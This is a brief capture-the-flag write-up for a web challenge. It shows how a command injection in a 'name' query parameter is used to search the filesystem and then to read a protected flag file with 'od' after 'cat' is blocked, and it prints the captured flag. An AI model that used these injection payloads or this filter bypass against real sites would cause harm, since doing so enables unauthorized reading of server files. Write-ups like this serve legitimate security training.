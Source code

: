 
*A seemingly simple web application greets users based on their input. But appearances can be deceptive. [https://cybersecure-x-namedropper.chals.io](https://)*

This challenge is solved using a command injection vulnerability with the name parameter.
The url https://cybersecure-x-namedropper.chals.io/?name=|find+/+-name+%22flag*%22 gives:


![image](Pasted%20image%2020250613195039.png)

Now we can read /secret/flag.txt

Trying to run cat /secret/flag.txt shows us that the command in blocked. Therefore we must use other methods to read the flag.

Running  https://cybersecure-x-namedropper.chals.io/?name=|od+-a+/secret/flag.txt gives us:

![image](Pasted%20image%2020250613195320.png)

Flag
`flag{r3str1ct3d_d0esn7_m34n_s3cur3}`



